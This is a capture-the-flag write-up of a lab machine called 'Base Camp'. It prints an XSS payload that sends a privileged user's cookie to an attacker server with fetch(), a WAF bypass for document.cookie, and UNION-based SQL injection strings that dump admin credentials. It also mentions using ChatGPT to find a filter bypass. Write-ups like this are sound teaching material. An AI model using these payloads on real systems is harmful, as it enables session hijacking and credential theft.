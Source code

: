 
# SCANNING
I performed an **nmap** aggressive scan on the target and found 2 open ports, 22 and 80 running **ssh** and **http** respectively.

![](IMAGES/BASE%20CAMP/1.png)

# FOOTHOLD
I mapped the *k2.thm* domain to the IP address in my host file and accessed the site through my browser.

![](IMAGES/BASE%20CAMP/2.png)

The home page contained nothing of interest, so I used **ffuf** to enumerate subdomains and found some.

![](IMAGES/BASE%20CAMP/3.png)

I updated my host file and accessed the subdomains. Both of them required us to log in using a username and password.

![](IMAGES/BASE%20CAMP/4.png)

![](IMAGES/BASE%20CAMP/5.png)

The *it.k2.thm* domain allowed us to register a new user. So I registered a user and logged in.

![](IMAGES/BASE%20CAMP/6.png)

After logging in, I had 2 input fields. I could give a title and a description. Since this was a ticket system, it would likely be reviewed by a privileged user.

![](IMAGES/BASE%20CAMP/7.png)

I entered a random title and description and got a confirmation that the ticket was being sent for review.

![](IMAGES/BASE%20CAMP/8.png)

I used **Burp**'s **Repeater** tab to test for cross site scripting by making the target send an HTTP request on a web server hosted locally. I used the following script in the title and description and encoded it:

```
Title: <script src='http://ATTACKER_IP/title'></script>
Description: <script src='http://ATTACKER_IP/description'></script>
```

![](IMAGES/BASE%20CAMP/9.png)

I started an **http** server locally and started receiving requests for the */desc* endpoint, this meant that the description field was vulnerable to cross site scripting.

![](IMAGES/BASE%20CAMP/10.png)

I then used the following payload to send a base64 encoded cookie of the privileged user interacting with our ticket to our web server.

```
<script>
fetch('http://10.21.17.140/cookie='+btoa(document.cookie));
</script>
```

![](IMAGES/BASE%20CAMP/11.png)

However, this activated the WAF and got blocked.

![](IMAGES/BASE%20CAMP/12.png)

I then reviewed my payload and modified its characters to find what caused the WAF to block it. I found that *document.cookie* was the problem. So, I used **ChatGPT** to find alternate ways to write *document.cookie* and found a method.

![](IMAGES/BASE%20CAMP/13.png)

I replaced *`document.cookie`* with *`document["cookie"]`* and was able to bypass the WAF.

![](IMAGES/BASE%20CAMP/14.png)

My web server received the cookie value from the target.

![](IMAGES/BASE%20CAMP/15.png)

I decoded the cookie.

![](IMAGES/BASE%20CAMP/16.png)

I then added this value to the *admin.k2.thm*.

![](IMAGES/BASE%20CAMP/17.png)

Since the *ticket.k2.thm* domain had a *dashboard* endpoint, this would also have the same. So I directly navigated to the *dashboard* endpoint and got access to it.

![](IMAGES/BASE%20CAMP/18.png)

I could filter tickets based on the titles. This functionality could be running on an sql server in the backend, so I forwarded a request made here to **Burp**'s **Repeater** tab.

![](IMAGES/BASE%20CAMP/19.png)

I tried a simple payload but got blocked by the WAF.

```
' OR 1=1-- -
```

![](IMAGES/BASE%20CAMP/20.png)

However, when I removed the space between `'` and `OR`, I was able to bypass the filter...

```
'OR 1=1-- -
```

![](IMAGES/BASE%20CAMP/21.png)

I then enumerated the number of columns and columns that were reflected back to us:

```
'UNION SELECT 1,2,3-- -
```

![](IMAGES/BASE%20CAMP/22.png)

After finding out the columns, I enumerated the table names present in the current database:

```
'UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()-- -
```

![](IMAGES/BASE%20CAMP/23.png)

The *admin_auth* and *auth_users* seemed interesting, so I enumerated the columns in these tables:

```
'UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name="admin_auth"-- -
```

![](IMAGES/BASE%20CAMP/24.png)

```
'UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name="auth_users"-- -
```

![](IMAGES/BASE%20CAMP/25.png)

I then looked at the contents inside *auth_users* table:

```
'UNION SELECT group_concat(auth_username),NULL,group_concat(auth_password) FROM auth_users-- -
```

However, this only contained the credentials of the user that I had created.

![](IMAGES/BASE%20CAMP/26.png)

I then looked at the contents inside the *admin_auth* table and found a bunch of username and passwords:

```
'UNION SELECT admin_username,NULL,admin_password FROM admin_auth-- -
```

![](IMAGES/BASE%20CAMP/27.png)

I created a wordlist of usernames and passwords and brute forced a valid **ssh** credential using **hydra**.

![](IMAGES/BASE%20CAMP/28.png)

I then logged into the system as *james*.

![](IMAGES/BASE%20CAMP/29.png)

Finally, I captured the user flag from *james*'s home directory.

![](IMAGES/BASE%20CAMP/30.png)

# PRIVILEGE ESCALATION

Viewing the group membership of *james* revealed that he was part of the *adm* group. This meant that he could read logs inside the */var/log* directory.

![](IMAGES/BASE%20CAMP/31.png)

I then went through various log files and found a password inside the *nginx* access log.

![](IMAGES/BASE%20CAMP/32.png)

The password was used with the *rose* user but when i tried using it to switch to *rose*, it failed. I then tried using it against *root* and got access as *root*.

![](IMAGES/BASE%20CAMP/33.png)

I then captured the *root* flag.

![](IMAGES/BASE%20CAMP/34.png)

As root, I was able to read the contents inside *rose*'s home directory and found her password in the bash history file.

![](IMAGES/BASE%20CAMP/35.png)

The */etc/passwd* file also had something unusual, it had the full names of the users Rose and James. I kept note of that as it could be useful in the future.

![](IMAGES/BASE%20CAMP/36.png)

After successfully pwning the base camp, I moved onto the middle camp.

---
